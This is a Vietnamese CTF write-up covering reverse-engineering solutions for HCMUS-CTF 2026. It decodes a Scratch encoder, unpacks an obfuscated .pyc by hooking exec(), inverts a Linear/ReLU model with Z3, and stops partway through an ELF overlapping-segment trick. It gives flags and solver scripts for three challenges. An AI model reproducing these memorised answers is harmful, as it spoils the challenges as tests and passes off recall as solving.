

# Write-up HCMUS-CTF 2026




# RE

## reverse/meowmeowmeow


File .sb3 là project Scratch 3.0. Có thể đổi đuôi thành .zip rồi giải nén để lấy source JSON. Sau khi giải nén, file quan trọng nhất là project.json.


---

Mở project.json, ta thấy project có các target chính:

```
Stage
display
main
```

Sprite display chỉ dùng để hiển thị kết quả. Khi nhận broadcast done, nó sẽ say out.

Sprite quan trọng nhất là main, vì nơi này chứa toàn bộ logic xử lý input và sinh output.

Trong main, có nhiều biến đáng chú ý:


Ý nghĩa sơ bộ:

| Biến | Ý nghĩa |
| --- | --- |
| raw | input người dùng nhập |
| out | output dạng tiếng mèo |
| ch | ký tự hiện tại |
| pos | vị trí ký tự hiện tại |
| v | giá trị số của ký tự |
| noise, shadow | biến phụ dùng trong gate |
| checksum | biến kiểm tra / gây nhiễu |

Mô tả challenge cho sẵn một câu tiếng mèo:

```
mewp nyaru nyau purru meowmew mrowi prrru rrupri ...
```

Quan sát project JSON thấy chương trình có rất nhiều đoạn dạng:

```
if v == 0:
    out = out + "meowa"

if v == 1:
    out = out + "meowi"

if v == 2:
    out = out + "meowu"
```

Điều này cho thấy câu tiếng mèo là kết quả encode từ một input nào đó.

Nói cách khác:

```
flag thật -> chương trình Scratch encode -> chuỗi mèo trong đề
```

Nhiệm vụ của ta là đảo ngược quá trình này. Trong project.json, các block Scratch được lưu dưới dạng JSON. Một đoạn block có dạng:


Sau đó nếu điều kiện đúng, chương trình nối thêm token vào out:


Tương đương pseudo-code:

```python
if v == 0:
    out += "meowa"
```

Ta viết script Python để tự động tìm các block dạng:

```
if v == X:
    out = out + TOKEN
```

Script rút ra được bảng mã đầy đủ gồm 95 token:

```
00 -> meowa
01 -> meowi
02 -> meowu
03 -> meowra
04 -> meowri
05 -> meowru
06 -> meownya
07 -> meowmew
08 -> meowp
09 -> meowrr
10 -> mewa
11 -> mewi
12 -> mewu
13 -> mewra
14 -> mewri
15 -> mewru
16 -> mewnya
17 -> mewmew
18 -> mewp
19 -> mewrr
20 -> mrra
21 -> mrri
22 -> mrru
23 -> mrrra
24 -> mrrri
25 -> mrrru
26 -> mrrnya
27 -> mrrmew
28 -> mrrp
29 -> mrrrr
30 -> prra
31 -> prri
32 -> prru
33 -> prrra
34 -> prrri
35 -> prrru
36 -> prrnya
37 -> prrmew
38 -> prrp
39 -> prrrr
40 -> nyaa
41 -> nyai
42 -> nyau
43 -> nyara
44 -> nyari
45 -> nyaru
46 -> nyanya
47 -> nyamew
48 -> nyap
49 -> nyarr
50 -> nyana
51 -> nyani
52 -> nyanu
53 -> nyanra
54 -> nyanri
55 -> nyanru
56 -> nyannya
57 -> nyanmew
58 -> nyanp
59 -> nyanrr
60 -> purra
61 -> purri
62 -> purru
63 -> purrra
64 -> purrri
65 -> purrru
66 -> purrnya
67 -> purrmew
68 -> purrp
69 -> purrrr
70 -> miaua
71 -> miaui
72 -> miauu
73 -> miaura
74 -> miauri
75 -> miauru
76 -> miaunya
77 -> miaumew
78 -> miaup
79 -> miaurr
80 -> mrowa
81 -> mrowi
82 -> mrowu
83 -> mrowra
84 -> mrowri
85 -> mrowru
86 -> mrownya
87 -> mrowmew
88 -> mrowp
89 -> mrowrr
90 -> rrupa
91 -> rrupi
92 -> rrupu
93 -> rrupra
94 -> rrupri
```

Tổng cộng đúng 95 giá trị. Đây là dấu hiệu rất mạnh cho thấy v đại diện cho printable ASCII:

```
ASCII 32..126
```

vì có đúng 95 ký tự printable.

Chuỗi trong đề bài chính là output cần đảo ngược. Ta copy nó làm target:

```python
target = """mewp nyaru nyau purru meowmew mrowi prrru rrupri mrowu mewu nyannya mewri miaumew nyai prrrr meowa mewa mrrri mrowri rrupri nyanya purrnya purra prri nyap purru nyanra meowri rrupra mrrp nyanu nyara mrrmew nyanra miauri miaui miauu mrrnya purra purri meowrr miaup miauru"""
```

Dựa vào bảng token ở trên, chuyển từng token về số v:

```python
rev = {token: v for v, token in mapping.items()}
encoded = [rev[t] for t in target.split()]
```

Kết quả:

```
[18, 45, 42, 62, 7, 81, 35, 94, 82, 12, 56, 14, 77, 41, 39, 0, 10, 24, 84, 94, 46, 66, 60, 31, 48, 62, 53, 4, 93, 28, 52, 43, 27, 53, 74, 71, 72, 26, 60, 61, 9, 78, 75]
```

Độ dài:

```
43
```

Vậy flag có 43 ký tự. Trong project có rất nhiều procedure:

```
gate_000
gate_001
gate_002
...
gate_127
```

Ngoài ra còn có nhiều procedure:

```
audit_lane_00
audit_lane_01
...
```

Ban đầu các audit_lane nhìn khá đáng nghi, nhưng thực tế chúng chủ yếu phục vụ checksum/gây nhiễu. Phần quyết định giá trị v cuối cùng là chuỗi gate.

Tìm các block procedures_call, ta thấy chương trình gọi tuần tự:

```
gate_000
gate_001
gate_002
...
gate_127
```


Mỗi gate có dạng tuyến tính theo modulo:

```python
v = (a * v + b * pos + c) % 95
```

Ngoài v, một số gate còn cập nhật thêm:

```
noise
shadow
```

nhưng nếu mô phỏng toàn bộ procedure theo JSON thì không cần tự tay rút công thức từng gate.

Một chi tiết quan trọng là trước khi chạy gate chain, chương trình khởi tạo:

```python
shadow = (pos * pos + 13) % 997
```

Nếu bỏ qua bước này, kết quả brute-force sẽ ra chuỗi printable nhưng sai flag.

Vì v nằm trong modulo 95, mỗi ký tự input có thể coi là:

```python
v0 = ord(ch) - 32
```

với ch thuộc printable ASCII từ 32 đến 126. Ta có target sau encode là dãy encoded. Với từng vị trí pos, thử toàn bộ 95 ký tự printable:

```python
for pos, want in enumerate(encoded, start=1):
    for c in range(32, 127):
        ch = chr(c)
        got = encode_char(ch, pos)

        if got == want:
            flag += ch
            break
```

Tóm lại thì flow bài sẽ như sau: Input ký tự → v = ord(ch) - 32 → chạy tuần tự gate_000..gate_127 (mỗi gate thực hiện các phép toán   * + mod) → thu được encoded v cuối → map v -> meow token → nối thành chuỗi mèo output.

Script giải mã đầy đủ:

```python
import json

TARGET = """mewp nyaru nyau purru meowmew mrowi prrru rrupri mrowu mewu nyannya mewri miaumew nyai prrrr meowa mewa mrrri mrowri rrupri nyanya purrnya purra prri nyap purru nyanra meowri rrupra mrrp nyanu nyara mrrmew nyanra miauri miaui miauu mrrnya purra purri meowrr miaup miauru"""

with open("project.json", "r", encoding="utf-8") as f:
    data = json.load(f)

main = next(t for t in data["targets"] if t.get("name") == "main")
blocks = main["blocks"]

def input_id(inp):
    if not inp:
        return None
    if len(inp) >= 2 and isinstance(inp[1], str):
        return inp[1]
    return None

def lit_num(inp):
    try:
        return int(inp[1][1])
    except Exception:
        return None

def lit_str(inp):
    try:
        return inp[1][1]
    except Exception:
        return None

def find_out_join(start_id):
    cur = start_id
    seen = set()

    while cur and cur in blocks and cur not in seen:
        seen.add(cur)
        b = blocks[cur]

        if b.get("opcode") == "data_setvariableto":
            var = b.get("fields", {}).get("VARIABLE", [None])[0]
            if var == "out":
                jid = input_id(b.get("inputs", {}).get("VALUE"))
                if jid and jid in blocks:
                    jb = blocks[jid]
                    if jb.get("opcode") == "operator_join":
                        return lit_str(jb.get("inputs", {}).get("STRING2"))

        cur = b.get("next")

    return None

mapping = {}

for bid, b in blocks.items():
    if b.get("opcode") != "control_if":
        continue

    cond_id = input_id(b.get("inputs", {}).get("CONDITION"))
    sub_id = input_id(b.get("inputs", {}).get("SUBSTACK"))

    if not cond_id or not sub_id:
        continue

    cond = blocks.get(cond_id)
    if not cond or cond.get("opcode") != "operator_equals":
        continue

    op1 = cond.get("inputs", {}).get("OPERAND1")
    op2 = cond.get("inputs", {}).get("OPERAND2")

    try:
        varname = op1[1][1]
    except Exception:
        continue

    if varname != "v":
        continue

    v = lit_num(op2)
    token = find_out_join(sub_id)

    if v is not None and token:
        mapping[v] = token

print("[+] mapping count:", len(mapping))

rev = {token: v for v, token in mapping.items()}
encoded = [rev[t] for t in TARGET.split()]

print("[+] encoded =", encoded)
print("[+] length =", len(encoded))

def eval_input(inp, env):
    if not inp:
        return 0

    x = inp[1]

    # variable reporter inline: [3, [12, "v", "v"], [10, ""]]
    if isinstance(x, list) and len(x) >= 2 and x[0] == 12:
        var = x[1]
        return env.get(var, 0)

    # number/string literal: [1, [4, 95]] or [1, [10, "abc"]]
    if isinstance(x, list):
        val = x[1]
        try:
            return int(val)
        except Exception:
            return val

    # block reference
    if isinstance(x, str):
        return eval_expr(x, env)

    return 0

def eval_expr(bid, env):
    b = blocks[bid]
    op = b.get("opcode")
    ins = b.get("inputs", {})

    if op == "operator_add":
        return eval_input(ins["NUM1"], env) + eval_input(ins["NUM2"], env)

    if op == "operator_multiply":
        return eval_input(ins["NUM1"], env) * eval_input(ins["NUM2"], env)

    if op == "operator_mod":
        return eval_input(ins["NUM1"], env) % eval_input(ins["NUM2"], env)

    if op == "operator_length":
        s = eval_input(ins["STRING"], env)
        return len(str(s))

    if op == "data_variable":
        var = b["fields"]["VARIABLE"][0]
        return env.get(var, 0)

    raise Exception(f"unsupported expr {op} at {bid}")

def proc_start(proc_name):
    for bid, b in blocks.items():
        if b.get("opcode") == "procedures_definition":
            proto_id = input_id(b.get("inputs", {}).get("custom_block"))
            proto = blocks.get(proto_id)
            if proto and proto.get("mutation", {}).get("proccode") == proc_name:
                return b.get("next")
    return None

def run_proc(proc_name, env):
    cur = proc_start(proc_name)
    seen = set()

    while cur and cur in blocks and cur not in seen:
        seen.add(cur)
        b = blocks[cur]

        if b.get("opcode") == "data_setvariableto":
            var = b["fields"]["VARIABLE"][0]
            val = eval_input(b["inputs"]["VALUE"], env)
            env[var] = val

        cur = b.get("next")

gate_order = []
for i in range(0, 128):
    name = f"gate_{i:03d}"
    if proc_start(name):
        gate_order.append(name)

print("[+] gates:", gate_order[0], "->", gate_order[-1], "count =", len(gate_order))

def encode_char(ch, pos):
    env = {
        "v": ord(ch) - 32,
        "pos": pos,
        "noise": 0,
        "shadow": (pos * pos + 13) % 997,
        "checksum": 0,
        "raw": "A" * len(encoded),
    }

    for g in gate_order:
        run_proc(g, env)

    return env["v"]

flag = ""

for pos, want in enumerate(encoded, start=1):
    hit = None

    for c in range(32, 127):
        ch = chr(c)
        got = encode_char(ch, pos)

        if got == want:
            hit = ch
            break

    if hit is None:
        hit = "?"
        print("[!] missing pos", pos, "want", want)

    flag += hit

print("[+] flag:", flag)
```


Flag: HCMUS-CTF{dear_human_gimme_more_f~ish~lags}

## reverse/100goilays


Đầu tiên mở main.py:


main.py chỉ nhận input rồi truyền thẳng vào hàm check() trong module checker.

Như vậy logic kiểm tra flag nằm trong file checker.pyc.

Vì checker.pyc là Python bytecode đã compile, ta thử decompile bằng pycdc:

Sau khi decompile, source thu được không hiện trực tiếp logic check. Thay vào đó ta thấy một wrapper có import nhiều module serialize/compress:


_PAYLOAD là một blob rất lớn. Điều này cho thấy chương trình đã bị pack/obfuscate. Logic thật nhiều khả năng được giấu trong _PAYLOAD, sau đó runtime mới deserialize/decompress rồi exec.

Các module import cũng gợi ý flow:

```
_PAYLOAD
 -> pickle.loads(...)
 -> decompress bằng zlib/bz2/lzma
 -> marshal.loads(...)
 -> exec(code_object)
```

Thay vì đọc blob _PAYLOAD thủ công, ta hook exec()  vì nếu checker unpack payload xong rồi gọi: exec(payload) thì chỉ cần chặn tại exec() là lấy được stage cuối cùng.

Script dump:

```python
# dump_checker.py
import builtins
import importlib.util
import marshal
import dis
import types
import sys

old_exec = builtins.exec

def hook_exec(obj, g=None, l=None, *args, **kwargs):
    print("[+] exec object:", type(obj), getattr(obj, "co_name", None))

    if isinstance(obj, bytes):
        open("payload_exec.bin", "wb").write(obj)

    elif isinstance(obj, str):
        open("payload_exec.py", "w", encoding="utf-8").write(obj)

    elif isinstance(obj, types.CodeType):
        marshal.dump(obj, open("payload_code.marshal", "wb"))
        open("payload_code.dis", "w").write(dis.Bytecode(obj).dis())

    return old_exec(obj, g, l, *args, **kwargs)

builtins.exec = hook_exec

spec = importlib.util.spec_from_file_location("checker", "checker.pyc")
checker = importlib.util.module_from_spec(spec)
sys.modules["checker"] = checker
spec.loader.exec_module(checker)

open("check.dis", "w").write(dis.Bytecode(checker.check).dis())
print("[+] dumped check.dis")
```


Như vậy payload cuối cùng là Python code object. Sau khi dump, ta thu được các file:

```
payload_code.marshal
payload_code.dis
check.dis
```

Trong đó file quan trọng nhất là check.dis, vì đây là disassembly của hàm check() thật. File .dis không phải source Python gốc mà là Python bytecode đã được disassemble.


Ví dụ đoạn đầu:

```
RESUME                   0

LOAD_FAST                0 (s)
LOAD_ATTR                1 (encode + NULL|self)
CALL                     0
STORE_FAST               1 (data)
```

Đoạn này tương đương Python:

```python
data = s.encode()
```

Tiếp theo:

```
LOAD_GLOBAL              3 (len + NULL)
LOAD_FAST                1 (data)
CALL                     1
LOAD_CONST               1 (69)
COMPARE_OP             119 (bool(!=))
POP_JUMP_IF_FALSE       12
```

Tương đương:

```python
if len(data) != 69:
    print("no")
    return False
```

Vậy flag phải dài đúng 69 bytes. Sau phần check length, chương trình bắt đầu lấy từng byte của input:


Tương đương:

```python
x = data[0]
```

Sau đó x được đưa qua nhiều phép toán 8-bit.

Ví dụ với byte đầu tiên:


```python
(((x ^ 209) + 238) & 255) == 135
(((x + 94) * 7) & 255) == 138
(((((x << 2) | (x >> 6)) & 255) ^ 199) & 255) == 230
(((x & 209) | (~x & 238)) & 255) == 230
```

Đây là các phép toán đơn giản trên một byte:

- XOR
- cộng
- nhân
- shift
- OR
- AND `0xff`

Điều quan trọng là mỗi block chỉ dùng một biến x = data[i]. Không có byte nào phụ thuộc vào byte khác. Vì vậy ta có thể brute-force từng ký tự độc lập.

Để dễ đọc hơn, ta convert các instruction trong .dis thành biểu thức Python.

```python
import re

ops = {
    '^': '^',
    '+': '+',
    '&': '&',
    '*': '*',
    '<<': '<<',
    '>>': '>>',
    '|': '|',
}

stack = []

for line in open("check.dis"):
    line = line.strip()

    if "LOAD_FAST" in line:
        name = re.search(r'\((.*?)\)', line).group(1)
        stack.append(name)

    elif "LOAD_CONST" in line:
        val = re.search(r'\((.*?)\)', line).group(1)
        stack.append(val)

    elif "BINARY_OP" in line:
        op = re.search(r'\((.*?)\)', line).group(1)
        b = stack.pop()
        a = stack.pop()
        stack.append(f"({a} {op} {b})")

    elif "COMPARE_OP" in line:
        op = re.search(r'\((.*?)\)', line).group(1)
        b = stack.pop()
        a = stack.pop()
        print(f"{a} {op} {b}")
```


Vì input dài 69 bytes, ta brute-force từng vị trí.

Ý tưởng:

```
for mỗi vị trí i:
    thử x từ 0 đến 255
    nếu x thỏa constraint của vị trí i:
        byte thứ i = x
```

Ví dụ với byte đầu tiên:

```python
for x in range(256):
    if (
        (((x ^ 209) + 238) & 255) == 135 and
        (((x + 94) * 7) & 255) == 138 and
        (((((x << 2) | (x >> 6)) & 255) ^ 199) & 255) == 230 and
        (((x & 209) | (~x & 238)) & 255) == 230
    ):
        print(x, chr(x))
#72 H
```

Kết quả ra chữ H vậy byte đầu tiên là H. Lặp lại với các block còn lại, ta recover toàn bộ flag.

```python
def rol8(x, r):
    return ((x << r) | (x >> (8 - r))) & 0xff

checks = [
    (209,238,135,94,7,138,2,199,230,209,238,230),
    (42,55,160,35,255,154,1,4,130,42,55,54),
    (44,166,7,145,227,218,0,161,236,44,166,174),
    (52,68,165,186,165,171,1,83,249,52,68,20),
    (204,239,142,36,67,37,0,129,210,204,239,236),
    (66,139,250,102,119,85,2,223,107,66,139,130),
    (249,156,86,180,11,157,1,153,31,249,156,221),
    (170,76,74,145,235,55,2,36,117,170,76,8),
    (97,46,85,118,163,180,0,20,82,97,46,104),
    (112,14,25,243,153,190,1,207,57,112,14,116),
    (110,43,45,162,35,234,0,251,151,110,43,111),
    (100,54,134,209,209,21,2,106,186,100,54,38),
    (232,1,146,19,177,204,0,119,14,232,1,104),
    (193,0,164,78,53,15,2,182,35,193,0,65),
    (114,251,251,51,241,85,1,169,77,114,251,251),
    (107,2,19,175,141,149,1,154,110,107,2,106),
    (148,166,113,227,145,98,0,153,198,148,166,180),
    (88,129,186,54,105,239,1,111,173,88,129,192),
    (34,212,24,83,181,205,0,54,80,34,212,178),
    (240,238,114,122,145,206,0,193,181,240,238,250),
    (100,141,142,122,209,15,0,228,129,100,141,236),
    (11,41,162,11,179,103,0,39,85,11,41,11),
    (201,247,141,170,77,181,2,146,239,201,247,233),
    (92,253,45,120,161,100,0,247,155,92,253,221),
    (11,2,108,14,73,167,1,154,88,11,2,3),
    (119,240,254,216,127,47,2,9,236,119,240,241),
    (26,35,76,31,153,2,1,148,242,26,35,18),
    (122,193,201,216,109,130,1,94,186,122,193,243),
    (211,179,83,192,177,67,0,142,253,211,179,211),
    (218,2,135,10,255,151,0,232,183,218,2,90),
    (101,223,227,73,35,62,0,150,247,101,223,255),
    (121,54,85,80,237,126,1,80,156,121,54,112),
    (14,42,164,218,131,234,1,90,178,14,42,14),
    (29,105,225,1,95,218,1,184,114,29,105,13),
    (29,207,62,5,151,49,2,158,87,29,207,157),
    (171,17,5,58,117,237,2,194,191,171,17,11),
    (39,176,198,53,175,186,0,49,0,39,176,161),
    (236,204,164,57,13,137,1,198,174,236,204,236),
    (4,154,23,228,23,91,1,246,4,4,154,130),
    (207,189,103,8,61,249,1,224,42,207,189,221),
    (110,178,206,81,203,161,1,52,208,110,178,226),
    (24,15,122,4,183,17,2,166,107,24,15,28),
    (192,184,87,19,83,246,0,164,251,192,184,224),
    (219,206,136,225,235,150,1,196,6,219,206,207),
    (133,13,240,139,167,55,2,28,133,133,13,13),
    (155,243,226,244,67,56,0,11,127,155,243,147),
    (110,173,184,30,153,75,0,29,120,110,173,236),
    (17,136,235,87,63,119,1,233,13,17,136,152),
    (138,122,79,211,143,238,2,23,106,138,122,42),
    (136,214,186,201,97,21,0,170,198,136,214,154),
    (31,13,139,250,173,127,1,108,174,31,13,13),
    (209,220,132,125,133,206,1,170,88,209,220,213),
    (185,75,213,167,149,226,2,97,173,185,75,121),
    (176,170,108,53,63,25,0,142,252,176,170,184),
    (55,130,207,56,97,114,0,36,94,55,130,178),
    (64,15,46,11,111,246,2,176,205,64,15,64),
    (204,221,138,135,59,120,0,161,192,204,221,220),
    (235,230,115,127,207,43,2,56,161,235,230,226),
    (51,176,247,74,43,234,1,64,168,51,176,176),
    (209,236,160,144,19,47,1,193,11,209,236,201),
    (217,24,195,142,213,0,1,37,193,217,24,88),
    (111,37,85,157,237,76,2,137,244,111,37,111),
    (244,126,22,49,199,11,2,246,71,244,126,118),
    (149,145,50,191,137,11,0,219,239,149,145,149),
    (133,2,254,39,121,160,1,190,76,133,2,3),
    (14,237,42,52,197,67,1,239,137,14,237,206),
    (201,61,248,88,241,42,0,108,30,201,61,77),
    (50,131,196,126,131,83,0,198,181,50,131,178),
    (240,27,168,28,251,3,0,117,8,240,27,114),
]

flag = ""

for (
    a,b,c,
    d,e,f,
    r,g,h,
    i,j,k
) in checks:

    for x in range(256):

        if (
            (((x ^ a) + b) & 255) == c and
            (((x + d) * e) & 255) == f and
            ((rol8(x, r) ^ g) & 255) == h and
            (((x & i) | (~x & j)) & 255) == k
        ):
            flag += chr(x)
            break

print(flag)
```


Flag:

```
HCMUS-CTF{l4yerz_after_lay3rs_after_14yers_after_lay3rz_after_l4y3rs}
```

## reverse/Model Inversion


Mở  file run.py:


Script đọc một ảnh grayscale image.png, chuyển toàn bộ pixel thành tensor 1 chiều rồi đưa vào model PyTorch. Output cuối cùng chỉ là một số thực.

Đầu tiên, ta load model và in ra cấu trúc các layer:

```python
import torch

model = torch.load("model.pt", weights_only=False)

for i, layer in enumerate(model):
    print(i, layer)
```

Kết quả rút gọn:

```
0 Linear(in_features=1369, out_features=2738, bias=True)
1 ReLU()
2 Linear(in_features=2738, out_features=1369, bias=True)
3 ReLU()
4 Linear(in_features=1369, out_features=2057, bias=True)
5 ReLU()
6 Linear(in_features=2057, out_features=6185, bias=True)
7 ReLU()
8 Linear(in_features=6185, out_features=1376, bias=True)
9 ReLU()
...
196 Linear(in_features=1376, out_features=1376, bias=True)
197 ReLU()
198 Linear(in_features=1376, out_features=1, bias=True)
199 ReLU()
```

Ta thấy model chỉ gồm các layer:

```
Linear
ReLU
```

Không có convolution, softmax hay các thành phần thường thấy trong image classifier. Điều này khá đáng nghi vì challenge nói đây là “image detection model”, nhưng trông nó lại giống một mạch tính toán được encode bằng neural network hơn.

Layer đầu tiên là:

```
Linear(in_features=1369, out_features=2738)
```

Trong PyTorch, in_features=1369 nghĩa là input đưa vào model phải có đúng 1369 phần tử.

Ở test.py, ảnh được convert thành grayscale rồi flatten bằng:

```python
x = torch.frombuffer(bytearray(image.tobytes()), dtype=torch.uint8).float()
```

Tức số phần tử của x chính là số pixel của ảnh.

Ta có 1369 = 37 × 37 nên suy ra ảnh input là ảnh grayscale kích thước 37 × 37.

Tiếp theo, ta dump layer cuối:

```python
last = model[198]

print(last.weight.shape)
print(last.bias)
print(last.weight[0][:50])
```

Kết quả:


Như vậy layer 198 tính:

```
sum(h) - 1375
```

Sau đó layer 199 là ReLU, nên output cuối là:

```
ReLU(sum(h) - 1375)
```

Trong đó h là vector 1376 phần tử trước layer cuối. Muốn output khác 0 thì cần: sum(h) > 1375 vì có đúng 1376 phần tử, điều này gần như tương đương với việc toàn bộ 1376 điều kiện phải đúng. Chỉ cần sai một số điều kiện, output sẽ bị ReLU đưa về 0.

Ta kiểm tra các giá trị weight trong model:

```python
import torch

model = torch.load("model.pt", weights_only=False)

for i in range(0, len(model), 2):
    if hasattr(model[i], "weight"):
        w = model[i].weight.detach()
        b = model[i].bias.detach()

        print(
            i,
            "weight unique =", torch.unique(w),
            "bias unique =", torch.unique(b)
        )
```


Kết quả cho thấy weight chủ yếu chỉ gồm các giá trị nhỏ và Bias cũng là các số nguyên nhỏ.

Đây không giống một neural network được train bình thường. Thay vào đó, nó giống một boolean circuit được encode bằng các layer Linear + ReLU.

Layer đầu tiên cũng rất đáng chú ý. Các bias quanh 127 và 128, kết hợp với weight -1, cho thấy model đang threshold pixel quanh 128.

Nói cách khác, ảnh grayscale được chuyển thành bit:

```
pixel < 128  → 1
pixel >=128 → 0
```

Do đó, bài này không phải reverse một model ML thật, mà là reverse một mạch logic được giấu trong file .pt. Khi in shape của các layer Linear:

```python
for i in range(0, len(model), 2):
    if hasattr(model[i], "weight"):
        print(i, model[i].weight.shape)
```


Ta thấy pattern lặp lại:

```
10 torch.Size([2064, 1376])
12 torch.Size([6192, 2064])
14 torch.Size([1376, 6192])

16 torch.Size([2064, 1376])
18 torch.Size([6192, 2064])
20 torch.Size([1376, 6192])

22 torch.Size([2064, 1376])
24 torch.Size([6192, 2064])
26 torch.Size([1376, 6192])
...
```

Tức là model có nhiều round dạng:

```
1376 → 2064 → 6192 → 1376
```

Mỗi round là một đoạn boolean logic. Vì output cuối yêu cầu toàn bộ state cuối phải đúng, ta có thể đi ngược từng round thay vì solve toàn bộ model cùng lúc. Nếu encode toàn bộ 200 layer vào Z3 một lần, solver sẽ rất chậm. Do đó ta chia nhỏ bài toán: biết target cuối, rồi invert từng block từ cuối về đầu. Layer cuối yêu cầu output sau layer 196 phải toàn 1 vì layer 198 là sum(h) - 1375  và có 1376 phần tử. Sau đó ta invert layer 196 để biết state trước layer 196 cần là gì. Tiếp theo, ta lần lượt invert từng block:

```
190, 192, 194
184, 186, 188
178, 180, 182
...
10, 12, 14
4, 6, 8
```

Mỗi block được encode vào Z3 riêng. Vì mỗi lần chỉ solve một block nhỏ nên nhanh hơn rất nhiều so với solve toàn bộ model.

Flow tổng quát:

```
final constraint
↓
invert layer 196
↓
target state trước layer 196
↓
invert từng round từ cuối về đầu
↓
thu được input bits
↓
convert bits thành ảnh 37×37
↓
QR code
```

```python
import torch
from z3 import *
from PIL import Image

model = torch.load("model.pt", weights_only=False, map_location="cpu")
model.eval()

def relu(e):
    return If(e > 0, e, 0)

def encode_layer(solver, vec, idx, name):
    layer = model[idx]
    W = layer.weight.detach()
    B = layer.bias.detach()

    out = []

    for r in range(W.shape[0]):
        expr = int(B[r].item())

        nz = torch.nonzero(W[r]).flatten().tolist()
        for c in nz:
            coeff = int(W[r, c].item())
            expr += coeff * vec[c]

        y = Int(f"{name}_{idx}_{r}")

        solver.add(y == relu(expr))
        solver.add(y >= 0, y <= 4)

        out.append(y)

    return out

def invert_block(a, b, c, target, n_in=1376):
    print(f"[+] invert block {a},{b},{c}")

    s = Solver()
    s.set("timeout", 30000)

    inp = [Int(f"in_{a}_{i}") for i in range(n_in)]

    for v in inp:
        s.add(Or(v == 0, v == 1))

    v = encode_layer(s, inp, a, f"r{a}")
    v = encode_layer(s, v, b, f"r{a}")
    v = encode_layer(s, v, c, f"r{a}")

    for i, t in enumerate(target):
        s.add(v[i] == int(t))

    res = s.check()
    print("[+] result:", res)

    if res != sat:
        raise Exception(f"unsat at block {a},{b},{c}")

    m = s.model()

    return [m[inp[i]].as_long() for i in range(n_in)]

# ------------------------------------------------------------
# 1. Từ layer cuối suy ra state sau layer 196
# ------------------------------------------------------------

target_after_196 = [1] * 1376

# ------------------------------------------------------------
# 2. Invert layer 196
# ------------------------------------------------------------

layer = model[196]
W = layer.weight.detach()
B = layer.bias.detach()

target = [None] * 1376

for r in range(1376):
    nz = torch.nonzero(W[r]).flatten().tolist()
    assert len(nz) == 1

    c = nz[0]
    coeff = int(W[r, c].item())
    bias = int(B[r].item())

    # Sau ReLU, output cần bằng 1.
    # Các pattern thường gặp:
    #   y = ReLU(x)       => x phải là 1
    #   y = ReLU(1 - x)   => x phải là 0
    if coeff == 1 and bias == 0:
        target[c] = 1
    elif coeff == -1 and bias == 1:
        target[c] = 0
    else:
        raise Exception("unknown layer 196 pattern")

print("[+] got target before layer 196")

# ------------------------------------------------------------
# 3. Invert từng round lặp từ cuối về đầu
# ------------------------------------------------------------

for c in range(194, 8, -6):
    a = c - 4
    b = c - 2
    target = invert_block(a, b, c, target, n_in=1376)

# ------------------------------------------------------------
# 4. Invert block đầu: 4, 6, 8
#    Block này input chỉ có 1369 bit
# ------------------------------------------------------------

bits = invert_block(4, 6, 8, target, n_in=1369)

# ------------------------------------------------------------
# 5. Convert bit thành ảnh
# ------------------------------------------------------------

# bit = 1 tương ứng pixel đen
pixels = [0 if b == 1 else 255 for b in bits]

img = Image.frombytes("L", (37, 37), bytes(pixels))
img = img.resize((370, 370), Image.Resampling.NEAREST)
img.save("solved_qr.png")

print("[+] saved solved_qr.png")
```

Chạy script trên, ta thu được file:


Ảnh này là QR code hợp lệ. Sau khi scan QR, ta nhận được flag.


Flag

```
HCMUS-CTF{n0t_all_model5_4re_th3_s4me!}
```

## reverse/Hide and Seek 2


Đầu tiên ta thấy được file chall này là 1 file ELF, tôi dùng IDA để đọc thử thì nhận được 1 cảnh báo


IDA phát hiện ra rằng trong PHT đang có hai hoặc nhiều segment được chỉ định nạp vào cùng 1 VA, điều này thật sự rất khả nghi nếu không để ý sẽ dễ dính decoy (thực tế lúc làm bài này trong cuộc thi tôi đã không để ý thật). Ta xem thử xem segment nào đã bị ghi đè thử:


Ở đây ta thấy có nhiều thông tin quan trọng như: ở fragment 1 ta có thể thấy nó nạp dữ liệu ở offset 0x1000 vào VA tương ứng là 0x401000 với memsize là 0x12292d tức dải bộ nhớ của nó trải dài từ 0x401000 đến 0x52392D. Tuy nhiên ở fragment 4 thì nó lại nạp tiếp offset 0x1cb000 vào VA 0x402000, điều này có nghĩa nó ghi đè dữ liệu ở segment 1. Kỹ thuật anti disassembly trên có thể giải thích như sau:

- Hệ điều hành (Linux Loader): Khi chạy một file ELF, Linux chỉ quan tâm đến Program Header Table (PHT). Nó nhìn vào các LOAD segment, cấp phát RAM và bê dữ liệu từ file đè lên RAM theo đúng offset và virtual address, không cần biết dữ liệu đó là code hay text.
- IDA Pro (Static Disassembler): Để hiển thị code đẹp đẽ, phân màu rõ ràng, IDA lại phụ thuộc rất nhiều vào Section Header Table (SHT) (như .text, .data, .bss).
- Tác giả tiêm Segment 04 và Segment 05 vào PHT để OS nạp chúng lên RAM, nhưng lại cố tình xóa hoặc không khai báo chúng trong bảng SHT. Khi ném file vào IDA, IDA tìm bảng SHT không thấy hai vùng này, nó liền coi đây là vùng dữ liệu rác  hoặc thậm chí bỏ qua, khiến ta không xác định được chương trình thực sự thực thi cái gì.


Oke ta sẽ thử xem trước và sau khi ghi đè sẽ có gì khác nhau, đầu tiên ta sẽ tính toán lại địa chỉ cho chính xác

```
File_Offset = Offset_của_Segment + (VA_cần_tìm - VA_bắt_đầu_của_Segment)

```

Ta dễ dàng tính được file offset ban đầu là 0x2060 và sau khi ghi đè là 0x1cb060. Tiếp theo sẽ xem thử điểm khác biệt trước và sau khi ghi đè


Ta có  **48 c7 c7** chính là phần mở bài của lệnh `mov rdi, <một_hằng_số>`, suy ra được lúc đầu thì nó nạp địa chỉ 0x00401e00 nhưng sau thì ghi đè là 0x0076c558, dùng IDA xem thử nó call gì sau đó 


Oke nó đang nạp địa chỉ hàm main, đoạn mov rdi ở 0x402078 trùng khớp với địa chỉ mình đã xem trước đó. Từ đây ta có thể suy ra hành vi của chương trình như sau:

